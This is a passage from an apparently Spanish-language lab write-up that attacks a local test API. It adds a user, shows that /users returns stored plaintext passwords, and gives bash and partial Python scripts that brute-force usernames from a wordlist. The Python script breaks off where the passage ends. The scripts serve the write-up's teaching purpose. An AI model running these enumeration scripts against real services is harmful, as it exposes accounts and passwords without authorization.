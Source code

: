 ```shell
curl -X POST "http://<IP>:5000/add" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "username=John&email=john@example.com&password=123456"
```

Info:

```
{
  "message": "User added"
}
```

Como podremos ver acabamos de añadir al usuario `John` con la contraseña `123456`, ahora que tenemos un usuario añadido vamos a ver si se añadio de forma correcta con el otro directorio llamado `/users` de la siguiente forma:

```shell
curl -X GET "http://<IP>:5000/users?username=John"
```

Info:

```
[
  [
    3, 
    "John", 
    "123456"
  ]
]
```

Vemos que si lo tenemos añadido y somos el `ID` numero `3`, vamos a realizar una fuerza bruta de usuarios creando un script.

> findUserAPI.sh

```bash
#!/bin/bash

# Asumiendo que tienes un archivo users.txt con nombres de usuario
while read username; do
  response=$(curl -s "http://<IP>:5000/users?username=${username}")
  if [[ "$response" != *"User not found"* ]]; then
    echo "Usuario encontrado: $username"
    echo "$response"
  fi
done < users.txt
```

En `python3` seria con este otro script:

> findUserAPI.py

```python
import subprocess

# URL base de la API
url = "http://172.17.0.2:5000/users?username={}"

# Función para leer el diccionario desde un archivo
def load_usernames_from_file(file_path):
    try:
        with open(file_path, 'r') as file:
            # Leemos cada línea y eliminamos saltos de línea
            return [line.strip() for line in file.readlines()]
    except FileNotFoundError:
        print(f"El archivo {file_path} no se encuentra.")
        return []
```